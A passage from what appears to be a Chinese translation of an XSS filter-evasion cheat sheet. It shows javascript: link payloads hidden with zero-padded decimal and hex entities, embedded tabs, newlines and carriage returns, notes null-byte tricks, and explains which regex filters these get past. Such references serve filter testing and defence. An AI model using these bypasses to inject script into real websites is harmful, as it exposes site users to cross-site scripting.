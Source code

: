 这通常可以绕过寻找 `&\#XX;` 字符串的 XSS 过滤器，因为大多数人不知道填充 - 可以使用最多 7 个数字字符。这对于针对解码字符串如 `$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/;` 的过滤器也很有用，该过滤器错误地假定需要分号来终止 HTML 编码字符串（这在野外已经见过）：

```html
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">点击我</a>
```

### 没有尾随分号的十六进制 HTML 字符引用

这种攻击对于过滤器字符串 `$tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;` 也是可行的，因为它假定在井号后面必须有一个数字字符 - 而对于十六进制 HTML 字符来说，这是不正确的：

```html
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">点击我</a>
```

### 嵌入制表符

这种方法可以分解 XSS 攻击：


```html
 <a href="jav	ascript:alert('XSS');">点击我</a>
```


### 嵌入编码制表符

这种方法也可以分解 XSS：

```html
 <a href="jav&#x09;ascript:alert('XSS');">点击我</a>
```

### 嵌入换行符以分解 XSS

虽然一些防御者声称字符 09-13（十进制）都可以用于此攻击，但这是不正确的。只有 09（水平制表符）、10（换行符）和 13（回车符）有效。请查看 [ASCII 表](https://man7.org/linux/man-pages/man7/ascii.7.html)作为参考。接下来的四个 XSS 攻击示例说明了这个向量：

```html
<a href="jav&#x0A;ascript:alert('XSS');">点击我</a>
```

#### 示例 1：使用嵌入的回车符分解 XSS 攻击

（注意：在上面的示例中，我故意使这些字符串比必要的长，因为可以省略零。我经常看到一些过滤器假定十六进制和十进制编码必须是两到三个字符。实际规则是 1-7 个字符。）：

```html
<a href="jav&#x0D;ascript:alert('XSS');">点击我</a>
```

#### 示例 2：使用空字符分解 JavaScript 指令

空字符也可以作为 XSS 向量，但不像上面那样，你需要直接注入它们，可以使用 Burp Proxy 或在 URL 字符串中使用 `%00`，或者如果你想编写自己的注入工具，可以使用 vim（`^V^@` 将产生空字符）或使用以下程序将其生成到文本文件中。空字符 `%00` 更有用，并且帮助我使用这个示例的变体绕过了某些真实世界的过滤器：
